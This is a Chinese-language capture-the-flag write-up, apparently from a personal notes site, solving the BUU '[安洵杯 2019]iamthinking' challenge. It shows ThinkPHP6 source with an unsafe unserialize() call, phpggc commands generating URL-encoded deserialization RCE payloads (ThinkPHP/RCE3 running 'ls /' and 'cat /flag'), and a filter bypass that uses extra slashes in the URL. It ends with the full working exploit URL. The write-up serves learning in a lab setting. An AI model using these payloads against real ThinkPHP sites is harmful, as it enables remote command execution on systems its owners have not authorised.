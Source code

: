 ```yaml
---
{"dg-publish":true,"title":"BUU_[安洵杯 2019]iamthinking","dg-path":"安全/靶场/BUU_[安洵杯 2019]iamthinking.md","permalink":"/安全/靶场/BUU_[安洵杯 2019]iamthinking/","dgPassFrontmatter":true}
---
```


利用dirsearch工具目录扫描发现网站源码：
![Pasted image 20241116143028.png](/img/user/picture/Pasted%20image%2020241116143028.png)

查看源码发现网站是基于thinkPHP6开发的
![Pasted image 20241116143116.png](/img/user/picture/Pasted%20image%2020241116143116.png)

根据提示有`/public/`目录
![Pasted image 20241116143149.png](/img/user/picture/Pasted%20image%2020241116143149.png)
查看源码：
```php
<?php  
namespace app\controller;  
use app\BaseController;  
  
class Index extends BaseController  
{  
    public function index()  
    {  
          
        echo "<img src='../test.jpg'"."/>";  
        $paylaod = @$_GET['payload'];  
        if(isset($paylaod))  
        {  
            $url = parse_url($_SERVER['REQUEST_URI']);  
            parse_str($url['query'],$query);  
            foreach($query as $value)  
            {  
                if(preg_match("/^O/i",$value))  
                {  
                    die('STOP HACKING');  
                    exit();  
                }  
            }  
            unserialize($paylaod);  
        }  
    }  
}
```


关于工具使用看这篇文章：
https://xz.aliyun.com/t/5450?time__1311=n4%2BxnieWqYwxyD0gxBqDqplDuAyrL5vUQx
发现存在反序列化，利用phpggc工具看是否有对应的漏洞
![Pasted image 20241116143317.png](/img/user/picture/Pasted%20image%2020241116143317.png)

![Pasted image 20241116143322.png](/img/user/picture/Pasted%20image%2020241116143322.png)


构造payload：
```shell
┌──(root㉿GMC)-[~/phpggc]
└─# ./phpggc  ThinkPHP/RCE3 system 'ls /' --url
O%3A41%3A%22League%5CFlysystem%5CCached%5CStorage%5CPsr6Cache%22%3A3%3A%7Bs%3A47%3A%22%00League%5CFlysystem%5CCached%5CStorage%5CPsr6Cache%00pool%22%3BO%3A26%3A%22League%5CFlysystem%5CDirectory%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00filesystem%22%3BO%3A26%3A%22League%5CFlysystem%5CDirectory%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00filesystem%22%3BO%3A14%3A%22think%5CValidate%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00type%22%3Ba%3A1%3A%7Bs%3A3%3A%22key%22%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00path%22%3Bs%3A4%3A%22ls%20%2F%22%3B%7Ds%3A7%3A%22%00%2A%00path%22%3Bs%3A3%3A%22key%22%3B%7Ds%3A11%3A%22%00%2A%00autosave%22%3Bb%3A0%3Bs%3A6%3A%22%00%2A%00key%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A8%3A%22anything%22%3B%7D%7D

┌──(root㉿GMC)-[~/phpggc]
└─# ./phpggc  ThinkPHP/RCE3 system 'cat /flag' --url
O%3A41%3A%22League%5CFlysystem%5CCached%5CStorage%5CPsr6Cache%22%3A3%3A%7Bs%3A47%3A%22%00League%5CFlysystem%5CCached%5CStorage%5CPsr6Cache%00pool%22%3BO%3A26%3A%22League%5CFlysystem%5CDirectory%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00filesystem%22%3BO%3A26%3A%22League%5CFlysystem%5CDirectory%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00filesystem%22%3BO%3A14%3A%22think%5CValidate%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00type%22%3Ba%3A1%3A%7Bs%3A3%3A%22key%22%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00path%22%3Bs%3A9%3A%22cat%20%2Fflag%22%3B%7Ds%3A7%3A%22%00%2A%00path%22%3Bs%3A3%3A%22key%22%3B%7Ds%3A11%3A%22%00%2A%00autosave%22%3Bb%3A0%3Bs%3A6%3A%22%00%2A%00key%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A8%3A%22anything%22%3B%7D%7D
```
注意这里要用工具自带的编码，不然很容易出错
![Pasted image 20241116145733.png](/img/user/picture/Pasted%20image%2020241116145733.png)
但是发现不行，原因在于程序中和有一布检查
```php
            $url = parse_url($_SERVER['REQUEST_URI']);  
            parse_str($url['query'],$query);  
            foreach($query as $value)  
            {  
                if(preg_match("/^O/i",$value))  
                {  
                    die('STOP HACKING');  
                    exit();  
                }  
            }
```

大致就是`parse_str`函数将url拆分为不同部分，然后检查传入的参数
这里可以绕过`parse_str`函数的检查，可以看这篇文章
https://www.cnblogs.com/Lee-404/p/12826352.html

![Pasted image 20241116150010.png](/img/user/picture/Pasted%20image%2020241116150010.png)

我们就拿到了flag：
```url
http://ebe05599-96df-4285-a0fd-3f0a2192544b.node5.buuoj.cn:81///public/?payload=O%3A41%3A%22League%5CFlysystem%5CCached%5CStorage%5CPsr6Cache%22%3A3%3A%7Bs%3A47%3A%22%00League%5CFlysystem%5CCached%5CStorage%5CPsr6Cache%00pool%22%3BO%3A26%3A%22League%5CFlysystem%5CDirectory%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00filesystem%22%3BO%3A26%3A%22League%5CFlysystem%5CDirectory%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00filesystem%22%3BO%3A14%3A%22think%5CValidate%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00type%22%3Ba%3A1%3A%7Bs%3A3%3A%22key%22%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00path%22%3Bs%3A9%3A%22cat%20%2Fflag%22%3B%7Ds%3A7%3A%22%00%2A%00path%22%3Bs%3A3%3A%22key%22%3B%7Ds%3A11%3A%22%00%2A%00autosave%22%3Bb%3A0%3Bs%3A6%3A%22%00%2A%00key%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A8%3A%22anything%22%3B%7D%7D
```

![Pasted image 20241116150034.png](/img/user/picture/Pasted%20image%2020241116150034.png)


